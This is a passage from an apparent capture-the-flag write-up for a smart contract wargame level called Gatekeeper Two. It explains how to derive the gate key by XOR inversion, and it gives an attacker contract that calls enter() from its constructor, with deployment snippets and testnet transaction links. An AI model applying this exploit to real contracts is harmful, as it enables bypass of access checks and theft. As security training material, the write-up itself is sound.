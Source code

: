 3. The bitwise `XOR` and each element operated through it is its own inverse, so if we have that if:

```js
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1
```

Is true, then:

```js
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0) - 1 == uint64(_gateKey)
```

is also true. Therefore, _we don't need `_gateKey`_, we can simply pass the result of `uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0) - 1` as the parameter of `enter()` but casted to `bytes8` as that's what `enter()` calls for.

### How I did it

1. Code an attacker contract where we I define the contract constructor as follows:

```js
constructor(address _instance) public {
    bytes8 gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (uint64(0) - 1));

    (bool success,) = _instance.call(abi.encodeWithSignature("enter(bytes8)", gateKey));
    require(success, "external call failed");
}
```

2. Then simply deploy the contract (at: `0x6961C8C27dC8f153c62815E0EBb0c7bb75d974E1`) and on the constructor run, the `enter()` function is called

```python
gk2attack = GatekeeperTwoAttack.deploy(gatekeeper.address, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x87105614e9d33bb07ff05662a4c989d5e68dc32e3862c6cccb5c81d1776b8bd6

3. Check that my address is `entrant`

```python
entrant_assertion = gatekeeper.entrant() == acc.address
print(f"Address is entrant: {entrant_assertion}")
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x8c73b0d28f3123100afcacd750d2267bd090faacac152efbb10bd8b6ab39a99a


***

## Naught Coin
